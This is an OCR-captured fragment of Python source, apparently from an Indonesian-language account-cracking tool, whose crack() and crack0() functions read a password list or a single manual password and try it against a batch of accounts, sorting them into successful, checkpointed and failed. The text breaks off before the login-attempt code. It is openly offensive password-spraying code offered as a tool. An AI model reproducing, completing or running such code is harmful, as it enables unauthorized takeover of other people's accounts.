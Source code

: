 def crack(d):

	i = inputD('[?]Pake Passwordlist/Manual (p/m)',['P','M'])

	if i.upper() == 'P':

		while 1:

			dir = inputD('[?]Masukan alamat file')

			try:

				D = open(dir,'r').readlines()

			except:

				tampil('\rm[!]Gagal membuka \rk%s'%dir)

				continue

			break

		tampil('\rh[*]Memulai crack dengan \rk%d password'%len(D))

		for i in D:

			i = i.replace('\n','')

			if len(i) != 0:

				crack0(d,i,0)

		i = inputD('[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)',['Y','T'])

		if i.upper() == 'Y':

			return crack(d)

		else:

			return menu()

	else:

		return crack0(d,inputD('[?]Sandi'),1)

def crack0(data,sandi,p):

	tampil('\rh[*]MengCrack \rk%d Akun \rhdengan sandi \rm[\rk%s\rm]'%(len(data),sandi))

	print('\033[32;1m[*]Cracking \033[31;1m[\033[36;1m0%\033[31;1m]\033[0m',end='')

	os.sys.stdout.flush()

	akun_jml = []

	akun_sukses = []

	akun_cekpoint = []

	akun_error = []

	akun_gagal = []

	jml0,jml1 = 0,0
